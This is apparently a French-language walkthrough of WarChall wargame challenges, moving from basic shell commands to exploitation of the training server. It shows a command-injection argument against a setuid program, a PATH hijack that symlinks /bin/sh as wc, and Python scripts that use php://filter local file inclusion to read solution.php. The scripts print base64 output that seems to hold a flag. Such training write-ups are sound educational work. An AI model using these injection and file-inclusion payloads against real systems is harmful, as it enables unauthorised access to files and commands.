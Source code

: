 ## 00_welcome

La solution pour ce premier challenge warchall se trouve dans le fichier README.md. Pour affichier son contenu, on peut utiliser la commande cat:
```
cat README.md
```

## 01_choice_tree
Pour commencer ce challenge, il faut d'abord executer la commande __ls__ pour voir le contenu du repertoire actuelle. On a plusieurs dossier et pour eviter de fouiller chaque dossier pour trouver la solution, on peput executer la commande :
```
du -b -a
```
qui affiche tout les contenues des dossier et sous-dossier. On peut apercevoir alors une fichier SOLUION.txt dans __blue/hats/grey/solution/patience__ et pour voir son contenu il suffit juste d'executer la commande :
```
cat ./blue/hats/grey/solution/patience/SOLUTION.txt
```
## 02
Comme on a fait dans le challenge précédent, on execute directe la commande 
```
du -b -a
```
pour voir tout son contenu. Sur la sortie affiché, après avoir examiné tout les contenu avec la command __cat__, on peut trouver la solution dans __./.porb/.solution__

## 03

Dans ce challenge, si on commence avec la commande __ls__ ce qui liste le contenu du repertoire, rien ne s'affiche à la sortie, donc le resultat est probablement dans un fichier caché. Pour afficher ce fichier caché on execute la commande:
```
ls -al
```
ce qui liste tout le contenue du repertoire et les autorisations qui vont avec, y compris les fichier cachés. On peut alors voir un fichier nommé __bash_history__ et pour voir son contenu il suffit de faire:
```
cat ./.bash_history
```
Et on a notre flag

## 04_kwisatz 

Dans ce repertoire on a deux fichier: __README2.txt__ et __README2.md__, dans le fichier README2.txt, il y a un texte indiquant qu'il y a quelque chose de spéciale dans README2.md, si on execute la commande cat sur ce fichier, il affiche __no read permission__ ce qui veut dire que ce fichier n'a pas d'autorisation de lecture, pour ajouter cette autorisation, il faut executer la commande __chmod__ suivie de __+r__ qui signifie read:
```
chmod +r README2.md
```
Avec les autorisation ajouté nous pouvons maintenant voir son contenu et avoir notre flag.
```
cat README2.md
```

## 05_privacy

Dans ce challenge, il y a un fichier README.md dans le repertoire, il suffit juste donc d'executer la commande cat sur le fichier pour voir son contenu, rien de plus.


## 10_choose_your_path

#### Étape 1 : Allez dans /home/level/10_choose_your_path.

Il y a 04 fichiers dans ce répertoire, mais nous nous intéressons ici à charp.c (le fichier de code C), charp l'exécutable compilé de charp.c et solution.txt.

La clé de ce niveau est de parvenir à faire en sorte que charp produise une sortie d'échec de sortie.

#### Étape 2 : Créez un fichier dans votre répertoire utilisateur en exécutant cette commande : touch /home/user/username/un_fichier.

Il faut remplacer username par le nom utilisé dans le serveur, ici mon nom est judicael ce qui fait que je dois execute la commande:
```
touch /home/user/judicael/un_fichier
```

Étape 3 : Maintenant, vous devez écrire cette ligne de commande : 

```
./charp "randomWords; cat solution.txt > /home/user/judicael/un_fichier.
```

Voici ce que fait cette commande: 

    Le premier argument [randomWords] : mettez simplement un mot aléatoire là-dedans, ce premier argument est nécessaire pour remplir la condition de produire un EXIT_FAILURE.
    Deuxième argument [solution.txt>~/un_fichier] : cet argument envoie le contenu de solution.txt vers le fichier que nous avons créé à l'étape 2 après l'échec de sortie


On obtien ceci dans la sortie: 

```
Counting randomWords; cat solution.txt> /home/user/judicael/yourfile ... 
/usr/bin/wc: randomWords: No such file or directory
Cannot scan! Sorry!
/usr/bin/wc: randomWords: No such file or directory
Cannot scan! Sorry!
Floating point exception
```
Exactement ce que l'on souhaite. Maintenant on va dans le repertoire ou on a créer notre fichier de toute à l'heure, c'est à dire dans __/home/user/judicael/__ , et il ne reste plus qu'à afficher le contenu du fichier avec la commande cat:

```
cat un_fichier
```
Le contenu est ceci (le flag est censuré):

    #!/C:\windows\system32\ed

    Congratulations hacker,

    You have achieved what only a few achieve.
    Kinda.

    The flag or solution for this challenge is: ***************

## 11_choose_your_path2

D'abord il faut créer un lien symbolique en utilisant la commande:

```
ln -s /bin/sh ~/wc

```

Maintenant il faut rediriger la variable d'environnement par défaut à ~ avec la commande 
```
PATH=~
```

Ensuite il nous faut executer la commande suivant et la solution s'affichera

```
./charp2 '/bin/cat/ solution.txt 1>&2'
```

## 12_pytong

Pour avoir notre flag sur ce challenge, il nous faut executer un fichier executable __pytong__ présent dans ce repertoire suivie de quelques arguments.

```
./pytong <(echo foo)>
```
Il affiche alors dans la sortie des text et juste en bas il y a une ligne __\<?php return '********************'?>__, les étoiles est une phrase qui est notre flag, mais il ne faut pas l'afficher dans le write up

## 14_live_fi

Pour ce challenge nous avons besoin d'envoyer une requête spécifique à l'url du challenge: __http://lfi.warchall.net/index.php__ .Pour se faire, nous allons utiliser le script python ci-dessous:

```Python
import requests


url = "http://lfi.warchall.net/index.php"

params = {
    "lang": "php://filter/convert.base64-encode/resource=solution.php"
}

r = requests.get(url, params=params, verify=False)
print (r.content)

```

Ce code envoye une requete à l'url et accéder au fichier solution.php en le convertissant en base 64. En executant le code, on obtient dans la sortie ceci :

```
PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K
```
Pour le moment cela ne ressemble pas au flag qu'on recherche, et pourtant c'est notre flag mais il faut encore le décoder. Comment faire? C'est simple il existe sur internet des sites qui propose ce genre de service. Après avoir décodé notre flag, on obtien du texte lissible, y compris notre flag.

## 15_live_rfi

Les étapes pour trouver le flag pour ce challenge est le même que pour __14_live_fi__ , la seul différence est l'url pour faire la requête. Il faut donc faire un petit changement dans notre code python

```Python
import requests

url = "http://rfi.warchall.net/index.php"

params = {
    "lang": "php://filter/convert.base64-encode/resource=solution.php"
}

r = requests.get(url, params=params, verify=False)
print (r.content)

```
Ensuite il faut juste décoder la sortie obtenu.

## 20_live_rce
